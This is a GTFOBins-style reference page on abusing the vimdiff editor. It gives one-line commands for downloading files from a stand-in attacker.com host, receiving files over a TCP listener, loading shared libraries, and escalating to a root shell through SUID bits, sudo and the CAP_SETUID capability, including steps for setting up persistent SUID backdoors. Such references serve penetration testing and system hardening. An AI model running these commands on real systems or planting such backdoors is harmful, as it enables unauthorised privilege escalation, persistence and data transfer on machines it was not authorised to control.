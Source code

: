 # GTFOBin: vimdiff

## File download

It can download remote files.

This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.

```
export URL=http://attacker.com/file_to_get
export LFILE=file_to_save
vimdiff -c ':py import vim,sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r
else: import urllib as r
r.urlretrieve(e["URL"], e["LFILE"])
vim.command(":q!")'
```

Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `vimdiff` is compiled with Lua support and that `lua-socket` is installed.

```
export LPORT=12345
export LFILE=file_to_save
vimdiff -c ':lua local k=require("socket");
  local s=assert(k.bind("*",os.getenv("LPORT")));
  local c=s:accept();
  local d,x=c:receive("*a");
  c:close();
  local f=io.open(os.getenv("LFILE"), "wb");
  f:write(d);
  io.close(f);'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
vimdiff file_to_write
iDATA
^[
w
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
vimdiff file_to_read
```

## Library load

It loads shared libraries that may be used to run code in the binary execution context.

This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.

```
vimdiff -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.

```
sudo install -m =xs $(which vimdiff) .

./vimdiff -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo vimdiff -c ':!/bin/sh'
```

This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.

```
sudo vimdiff -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

This requires that `vimdiff` is compiled with Lua support.

```
sudo vimdiff -c ':lua os.execute("reset; exec sh")'
```

## Capabilities

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

This requires that `vimdiff` is compiled with Python support. Prepend `:py3` for Python 3.

```
cp $(which vimdiff) .
sudo setcap cap_setuid+ep vimdiff

./vimdiff -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This requires that `vimdiff` is compiled with Lua support.

```
sudo install -m =xs $(which vimdiff) .

./vimdiff -c ':lua os.execute("reset; exec sh")'
```